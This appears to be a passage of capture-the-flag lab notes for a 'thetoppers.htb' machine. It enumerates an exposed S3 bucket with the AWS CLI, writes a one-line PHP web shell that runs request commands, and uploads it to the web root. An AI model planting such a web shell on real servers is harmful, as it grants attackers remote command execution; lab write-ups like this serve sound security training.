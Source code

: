 	- https://devhints.io/awscli
- Configured Values (based on being a lab environment)
	- `AWS Access Key ID [None]: temp`
	- `AWS Secret Access Key [None]: temp`
	- `Default region name [None]: temp`
	- `Default output format [None]: temp`
```bash
aws configure
```
### Explore S3 buckets
- Useful resource
	- https://devhints.io/awscli
	- https://docs.aws.amazon.com/cli/v1/userguide/cli-configure-endpoints.html#:~:text=and%20settings%20precedence-,Set%20endpoint%20for%20a%20single%20command,-To%20override%20any
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```
- Result
```bash
2025-09-14 14:04:03 thetoppers.htb
```
### Explore contents of bucket
- Useful resource
	- https://devhints.io/awscli
	- https://docs.aws.amazon.com/cli/v1/userguide/cli-configure-endpoints.html#:~:text=and%20settings%20precedence-,Set%20endpoint%20for%20a%20single%20command,-To%20override%20any
```bash
aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
- Result
```bash
                           PRE images/
2025-09-14 14:04:03          0 .htaccess
2025-09-14 14:04:03      11952 index.php
```
### Test unrestricted file upload vulnerability
- Useful resource
	- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
	- https://medium.com/@tareshsharma17/simple-php-reverse-shell-061d4a6bd18d#:~:text=Crafting%20the%20Web%20Shell
#### Copy simple php webshell script to a file
```php
echo "<?php system(\$_REQUEST['cmd']); ?>" > shell.php
```
#### Try uploading the file 
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp ./shell.php s3://thetoppers.htb/
```
#### Check if file was uploaded
```bash
aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
- Result
```bash
                           PRE images/
2025-08-20 07:24:07          0 .htaccess
2025-08-20 07:24:07      11952 index.php
2025-08-20 09:54:21         31 shell.php
```
### Test RCE vulnerability
- Useful resource
	- https://www.f5.com/labs/learning-center/web-shells-understanding-attackers-tools-and-techniques